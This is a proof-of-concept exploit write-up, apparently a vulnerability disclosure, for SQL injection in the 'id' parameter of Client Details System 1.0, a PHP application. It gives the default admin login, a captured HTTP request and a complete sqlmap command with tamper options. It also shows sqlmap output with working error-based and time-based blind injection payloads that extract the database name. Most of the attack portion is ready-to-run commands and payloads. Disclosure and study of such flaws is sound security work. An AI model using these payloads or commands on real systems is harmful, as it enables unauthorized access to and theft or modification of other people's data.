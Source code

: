 # Client_Details_System-SQL_Injection_4
+ **Exploit Title:** Client_Details_System-SQL_Injection_4
+ **Date:** 2023-26-12
+ **Exploit Author:** Hamdi Sevben
+ **Vendor Homepage:** https://code-projects.org/client-details-system-in-php-with-source-code/
+ **Software Link:** https://download-media.code-projects.org/2020/01/CLIENT_DETAILS_SYSTEM_IN_PHP_WITH_SOURCE_CODE.zip
+ **Version:** 1.0
+ **Tested on:** Windows 10 Pro + PHP 8.1.6, Apache 2.4.53
+ **CVE:** CVE-

## References: 

## Description:
Client Details System 1.0 allows SQL Injection via parameter 'id' in "/clientdetails/admin/manage-users.php?id=1". Exploiting this issue could allow an attacker to compromise the application, access or modify data,  or exploit latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to the Admin Panel: "http://localhost/clientdetails/admin/"
+ Fill User Id and Password with `admin`:`client123` and log in.
+ Manage Users: "http://localhost/clientdetails/admin/manage-users.php"
+ Then click Delete button for any user: "http://localhost/clientdetails/admin/manage-users.php?id=1"
+ Intercept the request via Burp Suite and send to Repeater.
+ Copy and paste the request to a "r.txt" file.
+ Captured Burp request:
```
GET /clientdetails/admin/manage-users.php?id=1 HTTP/1.1
Host: localhost
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: en-us,en;q=0.5
Cache-Control: no-cache
Cookie: PHPSESSID=p5mgq2eci66sik6s94eakcjub9
Referer: http://localhost/clientdetails/admin/manage-users.php
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36

```

+ Use sqlmap to exploit. In sqlmap, use 'id' parameter to dump the database. 
```
python sqlmap.py -r r.txt -p id --risk 3 --level 5 --threads 1 --random-agent tamper=between,randomcase --proxy="http://127.0.0.1:8080" --dbms mysql --batch --current-db
```

```
---
Parameter: id (GET)
    Type: error-based
    Title: MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)
    Payload: id=1' AND EXTRACTVALUE(3346,CONCAT(0x5c,0x716b6a7a71,(SELECT (ELT(3346=3346,1))),0x7171707171))-- gsCH

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1' AND (SELECT 9169 FROM (SELECT(SLEEP(5)))gCdu)-- FiYL
---
[17:48:57] [INFO] the back-end DBMS is MySQL
web application technology: PHP 8.1.6, Apache 2.4.53
back-end DBMS: MySQL >= 5.1 (MariaDB fork)
[17:48:57] [INFO] fetching current database
[17:48:57] [INFO] retrieved: 'loginsystem'
current database: 'loginsystem'
```

+ current database: `loginsystem`
![4](https://github.com/h4md153v63n/CVEs/assets/5091265/2db1ab40-749f-4e0c-943b-fd362f079d0b)
